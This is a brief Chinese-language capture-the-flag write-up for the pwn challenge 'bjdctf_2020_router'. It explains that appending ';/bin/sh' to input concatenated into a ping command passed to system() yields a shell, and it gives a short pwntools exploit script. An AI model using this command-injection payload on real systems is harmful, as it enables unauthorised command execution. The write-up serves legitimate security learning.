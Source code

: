```yaml
---
title: 'bjdctf_2020_router'
date: 2024-01-02 13:00:00 +0800
categories: [ctf,pwn]
tags: [pwntools,rce]
---
```

![image-20240102134312184](../assets/img/old_imgs/image-20240102134312184.png)

- `pwntools`使用
- `linux`系统下命令执行

1. 关键点在`case1`的这个`system`函数执行上,`dest`中是`ping`命令
2. 我们在`system`执行函数时,加上`;`那么前后两个命令都会执行
3. 所以我们拼接`strcat`中加上`;/bin/sh`就可以得到`shell`

```python
from pwn import *
io = process('./bjdctf_2020_router')
io.sendlineafter(b'Please input u choose:',b'1')
io.sendline(';/bin/sh')
io.interactive()
```

~~实话说有点水~~
